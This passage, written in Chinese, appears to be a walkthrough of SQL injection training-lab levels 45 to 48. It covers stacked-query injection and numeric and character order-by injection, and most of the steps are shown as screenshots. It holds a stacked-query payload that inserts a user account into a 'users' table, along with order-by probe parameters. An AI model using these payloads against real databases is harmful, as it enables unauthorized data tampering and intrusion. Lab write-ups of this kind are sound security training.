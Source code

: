## 45. 同理
```
1');insert into users(id,username,password) values(45,'Less45','Less45')#
```

![image](https://user-images.githubusercontent.com/76896357/115117052-4e8f6880-9fcf-11eb-843d-24364567e9de.png)

![image](https://user-images.githubusercontent.com/76896357/115117061-5c44ee00-9fcf-11eb-80f5-7c5c2567091a.png)


## 46. 数字型order by注入

检查是否存在order by注入

![image](https://user-images.githubusercontent.com/76896357/115117576-e726e800-9fd1-11eb-9bc0-e0d49194de58.png)

```
?sort = 1+asc
?sort = 1+desc
```
asc

![image](https://user-images.githubusercontent.com/76896357/115117612-1178a580-9fd2-11eb-82f8-01ba259ec77f.png)

desc

![image](https://user-images.githubusercontent.com/76896357/115117621-1dfcfe00-9fd2-11eb-953d-8220b886b00d.png)

说明存在order by注入

* 报错注入

![image](https://user-images.githubusercontent.com/76896357/115117503-78498f00-9fd1-11eb-87b9-e5bd1f20c9d8.png)

## 47. 字符型order by注入

* 加了单引号的updatxml仍然可以注入

![image](https://user-images.githubusercontent.com/76896357/115118132-746b3c00-9fd4-11eb-97ef-dcdb3560c62c.png)

## 48. 数字型order by盲注

1. 检查是否存在order by注入

![image](https://user-images.githubusercontent.com/76896357/115129644-4dcff400-a01a-11eb-960e-4e65b4d4d1bc.png)

存在
2. 查看是否有回显

![image](https://user-images.githubusercontent.com/76896357/115129691-ca62d280-a01a-11eb-8f34-e0dcff5e9350.png)

